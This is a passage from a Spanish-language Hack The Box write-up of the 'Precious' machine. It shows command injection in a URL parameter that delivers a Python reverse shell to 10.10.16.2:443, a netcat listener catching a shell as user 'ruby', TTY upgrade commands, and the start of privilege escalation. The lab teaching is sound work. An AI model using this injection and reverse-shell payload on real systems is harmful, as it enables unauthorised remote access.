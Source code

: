 ```bash
http://10.10.16.2/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`
```

![precious-7](/assets/img/htb/precious/precious-7.png)

---
Recibimos una conexión en nuestra máquina, y logramos acceso a la máquina objetivo como el usuario `ruby`.

```bash
nc -lvnp 443
listening on [any] 443 ...
_______________________________________________________________________
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.189] 60916
ruby@precious:/var/www/pdfapp$ 
```

---
Realizamos un tratamiento de la TTY para poder trabajar cómodamente por la consola.

```bash
script /dev/null -c bash
# Presionamos "Control + Z"
stty raw -echo; fg
reset xterm
export TERM=xterm SHELL=bash
stty rows 25 columns 127
```

## Escalada de Privilegios
---
Enumeramos los usuarios del sistema para identificar posibles objetivos para escalar privilegios. Generalmente, sus shells serán `/bin/sh` o `/bin/bash`.
